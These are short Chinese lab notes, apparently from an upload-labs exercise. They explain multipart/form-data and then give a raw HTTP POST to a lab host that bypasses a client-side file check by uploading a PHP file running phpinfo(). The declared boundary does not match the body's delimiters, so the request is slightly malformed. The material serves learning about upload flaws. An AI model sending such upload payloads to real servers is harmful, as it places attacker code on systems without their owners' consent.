 
---


multipart/form-data的定义
媒体类型multipart/form-data遵循multipartMiME数据流定义（该定义可以参考Section5.1-RFC2046）
大概含义就是：媒体类型multipart/form-data的数据体由
(Boundary)
多个部分组成，这些部分由一个固定边界值分隔。
![[屏幕截图 2024-12-11 203230.png]]


```
提交的form

<form enctype="multipart/form-data" method="post" onsubmit="return checkFile()">
	<p>请选择要上传的图片：<p>
	<input class="input_file" type="file" name="upload_file"/>
	<input class="button" type="submit" name="submit" value="上传"/>
</form>




构造的pyload为
POST /Pass-01/index.php HTTP/1.1 
Host: 172.250.250.14
Content-Type: multipart/form-data; boundary=----15638190551882
Content-Length:318

-----------------------------15638190551882
Content-Disposition: form-data; name="upload_file"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo();?>

-----------------------------15638190551882
Content-Disposition: form-data; name="submit"

上传
-----------------------------15638190551882--

```